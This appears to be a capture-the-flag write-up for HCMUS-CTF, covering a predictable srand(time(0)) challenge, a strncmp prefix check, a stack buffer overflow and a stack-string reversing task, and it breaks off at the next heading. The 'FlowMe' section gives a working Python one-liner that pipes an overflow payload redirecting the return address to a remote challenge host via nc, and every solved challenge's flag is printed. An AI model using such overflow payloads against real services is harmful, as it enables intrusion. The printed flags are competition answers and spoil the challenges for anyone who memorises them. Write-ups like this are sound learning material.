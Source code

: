 Using the source above `./a.out 2538 122009 6632` gives 19797 (which is a correct answer). I wish it was this easy to predict stock prices.

**==>** `HCMUS-CTF{N3v3r_Us3_srand_time_0}` **<==**

### Secret (150pts)

```
Can you guess the flag ? It's not too hard if you know how to do it.

nc 159.65.13.76 33102

File: secret
```

Using ghidora to read the source showed that it checks if the input is the prefix of the flag. So... yeah, probably just type `H`.

**==>** `HCMUS-CTF{strncmp_is_so_fun}` **<==**

### FlowMe (150pts)

```
Flow your mine :)

nc 159.65.13.76 33103

File: flowme.c
File: flowme
```

After checking carefully the registers around where the input is stored, I found out that you can overwrite the return to the winning function at 0x4007ea.

One liner:

```bash
python2 -c "print 'this_is_a_password' + 'a'*246 + '\xea\x07\x40'" | nc 159.65.13.76 33103
```

**==>** `HCMUS-CTF{You_have_to_learn_basic_stack_based_buffer_overflow}` **<==**

## Reverse Engineering

### StackString (50pts)

```
I heard that you can't use strings so solve this challenge. Is it true ?

File: stackstring
```

Check the stack for the flag. Yes, just check it.

**==>** `HCMUS-CTF{St4cK_Str1ng_G00D_old_techn1qu3}` **<==**

### Patient (100pts)
